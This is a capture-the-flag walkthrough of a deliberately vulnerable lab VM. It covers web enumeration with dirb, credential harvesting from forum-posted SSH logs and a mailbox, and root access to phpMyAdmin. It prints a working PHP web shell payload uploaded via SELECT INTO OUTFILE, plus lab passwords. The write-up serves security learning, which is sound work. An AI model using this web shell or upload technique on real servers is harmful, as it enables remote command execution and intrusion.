

# Landing page.

Thanks to `nmap`, we know that ports **`80`** and **`443`** are open on it meaning there is a **website bound to the machine that we can access via HTTP / HTTPS requests**.

Using [`curl`](https://linux.die.net/man/1/curl), we can look at this website...

```HTML
  $> curl https://<NETWORK-IP2>

  <!DOCTYPE html>
  <html>
    <head>
      <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
      <title>Hack me if you can</title>
      <meta name='description' content='Simple and clean HTML coming soon / under construction page'/>
      <meta name='keywords' content='coming soon, html, html5, css3, css, under construction'/>
      <link rel="stylesheet" href="style.css" type="text/css" media="screen, projection" />
      <link href='http://fonts.googleapis.com/css?family=Coustard' rel='stylesheet' type='text/css'>
    </head>
    <body>
      <div id="wrapper">
        <h1>Hack me</h1>
        <h2>We're Coming Soon</h2>
        <p>We're wetting our shirts to launch the website.<br />
        In the mean time, you can connect with us trought</p>
        <p><a href="https://fr-fr.facebook.com/42Born2Code"></a> <a href="https://plus.google.com/+42Frborn2code"></a> <a href="https://twitter.com/42born2code"></a></p>
      </div>
    </body>
  </html>
```

> It clearly tell us `Hack me if you can`. So we are on the right path.

Trying a random endpoint gives us useful information...

```HTML
  $> curl https://<NETWORK-IP2>/test
  <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
  <html>
    <head>
      <title>404 Not Found</title>
    </head>
    <body>
      <h1>Not Found</h1>
      <p>The requested URL /test was not found on this server.</p>
      <hr>
      <address>Apache/2.2.22 (Ubuntu) Server at <NETWORK-IP2> Port 80</address>
    </body>
  </html>
```

So we know that this website is powered by **Apache**, some known vulnerabilities could be tried, we'll probably come back to that later on. For now on, we could try a powerful tool called [`dirb`](https://www.kali.org/tools/dirb/#:~:text=DIRB%20is%20a%20Web%20Content,can%20use%20your%20custom%20wordlists.) we could try to identify existing endpoints for this website.

```shell
  $> dirb https://<NETWORK-IP2> -rSwN 403

  -----------------
  DIRB v2.22    
  By The Dark Raver
  -----------------

  START_TIME: Sun Jan 23 18:06:57 2022
  URL_BASE: <NETWORK-IP2>
  WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
  OPTION: Ignoring NOT_FOUND code -> 403
  OPTION: Not Recursive
  OPTION: Silent Mode
  OPTION: Not Stopping on warning messages

  -----------------

  GENERATED WORDS: 4612

  ---- Scanning URL: <NETWORK-IP2> ----
  ==> DIRECTORY: <NETWORK-IP2>/forum/
  ==> DIRECTORY: <NETWORK-IP2>/phpmyadmin/
  ==> DIRECTORY: <NETWORK-IP2>/webmail/

  -----------------
  END_TIME: Sun Jan 23 18:07:07 2022
  DOWNLOADED: 4612 - FOUND: 0
```

> flags `-rSw` tell `dirb` to silently test every combinations in the used dictionary, not doing any recursion and not stopping analysis of an endpoint on a warning. `-N` discard any endpoint that respond with a particular [HTTP Code](https://en.wikipedia.org/wiki/List_of_HTTP_status_codes), here 403 meaning **Forbidden**.

Thanks to this scan, we can see that three services are available to us, a forum, phpmyadmin and a mail service...

#  Forum analysis.

On the forum's main page, we have some information at our disposal. At the top right corner a **Log in** and **Contact** buttons and some posts we can read. Only `Probleme login ?` by `lmezard` seems to be interesting to go through. It look like a kind of logs.

```
...
Oct 5 08:44:59 BornToSecHackMe sshd[7490]: Failed password for root from 161.202.39.38 port 55193 ssh2
...
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Received disconnect from 161.202.39.38: 3: com.jcraft.jsch.JSchException: Auth fail [preauth]
Oct 5 08:46:01 BornToSecHackMe CRON[7549]: pam_unix(cron:session): session opened for user lmezard by (uid=1040)
...
Oct 5 13:31:19 BornToSecHackMe sshd[20199]: reverse mapping checking getaddrinfo for ppp-253-14.20-151.wind.it [151.20.14.253] failed - POSSIBLE BREAK-IN ATTEMPT!
...
Oct 5 14:54:00 BornToSecHackMe sshd[23804]: Accepted password for admin from 62.210.32.157 port 61495 ssh2
...
Oct 5 14:54:29 BornToSecHackMe sudo: admin : TTY=pts/0 ; PWD=/home/admin ; USER=root ; COMMAND=/bin/sh
...
Oct 5 14:57:56 BornToSecHackMe sudo: root : TTY=pts/0 ; PWD=/home/admin ; USER=root ; COMMAND=/usr/sbin/service vsftpd restart
...
```

> This log was truncated with `...` for not really interesting parts... As we can see there are useful log that we could use to find some vulnerabilities later on.

We can see that someone most likely swapped his username with its password (`!q\]Ej?*5K5cy*AJ`). Since the logs tell us that user `lmezard` succesfully logged himself 30 seconds after, we can assume that it was his password. If we click on the **Log in** button and try these credentials we indeed access this account.

# Webmail analysis.
Now that we are logged on the forum we can access her profile and we can retrieve its email which is as depicted bellow, `laurie@borntosec.net`.



If we try to log on the webmail service with the credentials pair `laurie@borntosec.net:!q\]Ej?*5K5cy*AJ` we can access her mailbox where we find an interesting mail.

```
Subject:    DB Access
From:       qudevide@mail.borntosec.net
Date:       Thu, October 8, 2015 10:25 pm
To:         laurie@borntosec.net
Priority:   Normal

---------

Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
```
As you can see, this mail gives us administrator access to the databases with the credentials pair `root:Fg-'kKXBj87E:aJ$`.

# PHPMyAdmin and webshell exploit.

Now that we have these credentials we can log as root in PHPmyAdmin. There is a known vulnerability with this service known as [Webshell upload](https://www.netspi.com/blog/technical/network-penetration-testing/linux-hacking-case-studies-part-3-phpmyadmin/). To upload this shell to the website we need to find a place where we have rights to write files. So we are back to dirb... We'll look through the forum to find possibles directories.

```shell
 dirb https://<NETWORK-IP2>/forum -rSwN 403

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Jan 23 20:16:25 2022
URL_BASE: https://<NETWORK-IP2>/forum/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Ignoring NOT_FOUND code -> 403
OPTION: Not Recursive
OPTION: Silent Mode
OPTION: Not Stopping on warning messages

-----------------

GENERATED WORDS: 4612

---- Scanning URL: https://<NETWORK-IP2>/forum/ ----
==> DIRECTORY: https://<NETWORK-IP2>/forum/images/
==> DIRECTORY: https://<NETWORK-IP2>/forum/includes/
==> DIRECTORY: https://<NETWORK-IP2>/forum/js/
==> DIRECTORY: https://<NETWORK-IP2>/forum/lang/
==> DIRECTORY: https://<NETWORK-IP2>/forum/modules/
==> DIRECTORY: https://<NETWORK-IP2>/forum/templates_c/
==> DIRECTORY: https://<NETWORK-IP2>/forum/themes/
==> DIRECTORY: https://<NETWORK-IP2>/forum/update/

-----------------
END_TIME: Sun Jan 23 20:16:28 2022
DOWNLOADED: 4612 - FOUND: 2
```

Now that we have some potential candidates for our upload, let's try it. We head to the SQL tab and enter the following...

```SQL
SELECT "<HTML><BODY><FORM METHOD=\"GET\" NAME=\"myform\" ACTION=\"\"><INPUT TYPE=\"text\" NAME=\"cmd\"><INPUT TYPE=\"submit\" VALUE=\"Send\"></FORM><pre><?php if($_GET['cmd']) {system($_GET[\'cmd\']);} ?> </pre></BODY></HTML>"
INTO OUTFILE '/var/www/forum/templates_c/webshell.php'
```

> We find that `/forum/templates_c` is the only folder where this can be written. This basically create an HTML page with a textbox. When you click on the **Submit** button the input is evaluated directly in the shell where the website is hosted.

We now have a shell in the working directory `/forum/templates_c`, we are logged as `www-data`. After listing a few directories, we find `/home/LOOKATME/password` that gives us the credentials pair `lmezard:G!@M6f4Eatau{sF"`.